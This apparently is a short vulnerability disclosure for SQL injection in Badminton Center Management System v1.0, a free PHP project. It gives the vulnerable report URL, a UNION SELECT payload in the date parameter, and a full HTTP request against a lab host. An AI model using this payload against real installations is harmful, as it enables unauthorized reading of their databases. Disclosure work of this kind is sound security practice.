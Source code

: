 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Vulnerability File: /bcms/admin/?page=reports/daily_court_rental_report&date=

Vulnerability location: /bcms/admin/?page=reports/daily_court_rental_report&date=, date

[+] Payload: /bcms/admin/?page=reports/daily_court_rental_report&date=2022-05-27%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> date


```sql
GET /bcms/admin/?page=reports/daily_court_rental_report&date=2022-05-27%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170613827-86412f57-891d-49d2-a502-1338656d6c9f.png)

![image](https://user-images.githubusercontent.com/54017627/170613718-b6f13276-df47-4c2c-9339-9593ea516ded.png)
